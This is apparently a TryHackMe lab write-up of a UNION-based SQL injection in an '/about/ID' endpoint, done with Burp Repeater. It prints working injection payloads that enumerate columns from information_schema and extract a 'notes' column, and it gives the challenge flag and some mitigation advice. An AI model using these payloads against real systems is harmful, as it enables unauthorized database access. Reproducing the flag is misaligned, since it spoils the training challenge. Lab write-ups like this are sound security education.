




# Burp Repeater — UNION-based SQLi (TryHackMe Lab)

**Date:** 2025-09-25
  
**Platform:** TryHackMe (lab)

## Objective
Identify and exploit a **Union SQL Injection** vulnerability in the `ID` parameter of the `/about/ID` endpoint. Retrieve the CEO's notes stored in the database.

## Target
- URL / endpoint: `http://10.10.89.50/about/ID`
- Vulnerable parameter: `ID`

## Tools
- Burp Suite Repeater
- Browser

## Steps Taken

1. **Capture the request**
   - Opened `http://10.10.89.50/about/2` in the browser while Burp Proxy was running.  
   - Right-clicked the captured request and selected **Send to Repeater**.

2. **Confirm vulnerability**
   - Edited the request path in Repeater: `/about/2'` (added single apostrophe).  
   - Sent the request.  
   - Server responded with **500 Internal Server Error**, confirming a SQLi vulnerability.  

3. **Analyze error response**
   - Around line 40 of the response body, the server echoed back the attempted query.  
   - Useful information:  
     - Table: `people`  
     - Columns selected: `firstName`, `lastName`, `pfpLink`, `role`, `bio`  

4. **Enumerate columns**
   - Created a UNION query to select column names from `information_schema.columns`:
     ```
     /about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"
     ```
   - Changed the ID to `0` (invalid) to avoid returning original rows.  
   - Successfully retrieved the first column name.

5. **Amalgamate all column names**
   - Used `group_concat()` to get all column names in one output:
     ```
     /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"
     ```
   - Result: `id, firstName, lastName, pfpLink, role, shortRole, bio, notes`

6. **Extract target data**
   - Table: `people`  
   - Target column: `notes`  
   - CEO ID: `1`  
   - Payload to retrieve CEO notes (flag):
     ```
     /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id=1
     ```

7. **Flag**
THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}


## Screenshots
 — request captured in Repeater  
 — 500 error response with query  
 — group_concat() output showing column names  
 — final query output with flag

## Recommendations / Mitigation
- Use **parameterized queries / prepared statements** to prevent SQLi.  
- Implement strict **input validation**.  
- Limit database **error information exposure** to avoid leaking internal query info. 